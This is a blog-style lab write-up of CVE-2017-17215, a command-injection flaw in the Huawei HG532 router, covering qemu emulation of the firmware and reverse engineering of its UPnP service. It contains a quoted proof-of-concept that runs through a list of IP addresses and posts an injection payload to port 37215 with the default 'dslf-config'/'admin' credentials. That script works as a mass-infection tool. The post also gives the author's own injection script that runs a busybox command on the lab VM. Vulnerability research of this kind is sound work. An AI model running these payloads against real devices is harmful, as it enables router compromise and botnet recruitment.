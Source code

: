 ```yaml
---
title: "CVE-2017-17215"
subtitle: "華為 HG532"
layout: post
author: "Hsu"
published: true
header-style: text
tags:
  - CVE
---
```

# CVE-2017-17215
> 工具: qemu-mips

## description
Huawei HG532 with some customized versions has a **remote code execution** vulnerability. An authenticated attacker could **send malicious packets to port 37215** to launch attacks. Successful exploit could lead to the remote execution of arbitrary code.
- 關鍵字: `37215`

## 模擬
- [韌體檔案](https://github.com/kevin0920911/kevin0920911.github.io/raw/master/firmware/HG532eV100R001C01B020.zip)
- 先把映像檔載下來
    ```bash
    wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2
    wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
    ```
- 網路配置
    - 網橋創立
    ```bash
    sudo brctl addbr Virbr0
    sudo ifconfig Virbr0 192.168.10.1/24 up
    ```
    - 增加tap0接口
    ```bash
    sudo tunctl -t tap0
    sudo ifconfig tap0 192.168.10.11/24 up
    sudo brctl addif Virbr0 tap0
    ```
- 創建虛擬機
    ```bash
    sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic
    ```
- 在虛擬機上設定網路
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ping 192.168.10.1 -c10
    ```
- 在本機端傳送檔案
    ```bash
    scp -r squashfs-root/ root@192.168.10.2:~/
    ```
- 掛載檔案
    ```bash
    mount -o bind /dev ./squashfs-root/dev
    mount -t proc /proc ./squashfs-root/proc
    ```
- 回到本機端設定
    ```bash
    ssh root@192.168.10.2
    chroot squashfs-root /bin/sh
    ./bin/upnp
    ./bin/mic
    ```
- 接著就會發現ip改變，ssh中斷，因此要改回去
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ```
- 最後模擬成功，可以去192.168.10.2看


## PoC

```python3=
import threading, sys, time, random, socket, re, os, struct, array, requests
from requests.auth import HTTPDigestAuth
ips = open(sys.argv[1], "r").readlines()
cmd = "" # Your MIPS (SSHD)
rm = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"

class exploit(threading.Thread):
		def __init__ (self, ip):
			threading.Thread.__init__(self)
			self.ip = str(ip).rstrip('\n')
		def run(self):
			try:
				url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1"
				requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm)
				print "[SOAP] Attempting to infect " + self.ip
			except Exception as e:
				pass

for ip in ips:
	try:
		n = exploit(ip)
		n.start()
		time.sleep(0.03)
	except:
		pass
            
```
- 可以看到注入點應該是`NewDownloadURL`，但問題是在哪裡?
    - 往下看會看到`NewDownloadURL`是命令注射點

## write up
- 尋找幾個關鍵字: `37215`, `NewDownloadURL`
    ![image](https://hackmd.io/_uploads/ryA2TnUT0.png)
    - 所以漏洞應該與`/bin/upnp`, `/bin/mic`有關
- 逆向`/bin/upnp`，並搜尋`NewDownloadURL`後會出現這個
![image](https://hackmd.io/_uploads/SJPppnUpA.png)
    - 可以看出`ATP_XML_GetChildNodeByName`功能是分析XML，並將結果字串丟到第三個參數，回傳值是成功與否
    - 接著她可愛的程式碼沒經過任何處理就直接把字串拚一拚丟到system中
    - 因此我們可以用xml建構一些壞東西
- `script.py`
    ```python=
    import requests
    from requests.auth import HTTPDigestAuth


    data = '''
    <?xml version="1.0" ?>
     <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
       <NewStatusURL>;/bin/busybox ls -al;</NewStatusURL>
       <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
      </u:Upgrade>
     </s:Body>
    </s:Envelope>
    '''

    requests.post('http://192.168.10.2:37215/ctrlt/DeviceUpgrade_1',auth=HTTPDigestAuth('dslf-config', 'admin'),data=data)
    ```
- 結果(點到為止就好，剩下就是幹一個reverse shell出來，~~我累累病~~)
    - ![image](https://hackmd.io/_uploads/r1ERa28aC.png)



